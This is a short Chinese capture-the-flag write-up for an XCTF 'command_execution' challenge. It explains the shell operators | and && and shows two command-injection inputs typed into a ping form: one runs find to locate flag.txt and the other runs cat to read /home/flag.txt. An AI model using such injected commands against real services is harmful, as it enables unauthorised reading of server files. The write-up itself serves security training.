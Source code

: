 ```yaml
---

layout: post
title:  "ctf-command_execution命令拼接"
categories: [ctf]
tags: [命令拼接]

---
```




# command_execution

## **[原理]**

> | 的作用为将前一个命令的结果传递给后一个命令作为输入

> &&的作用是前一条命令执行成功时，才执行后一条命令
>

## **[目地]**

掌握命令拼接的方法

## **[环境]**

windows

## **[工具]**

firefox

## **[步骤]**

> 1.打开浏览器，在文本框内输入127.0.0.1 | find / -name "flag.txt" （将 | 替换成 & 或 && 都可以）,查找flag所在位置，如图所示。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/command_execution/1.png)

> 2.在文本框内输入 127.0.0.1 | cat /home/flag.txt 可得到flag，如图所示。

![img](https://adworld.xctf.org.cn/media/task/writeup/cn/command_execution/2.png)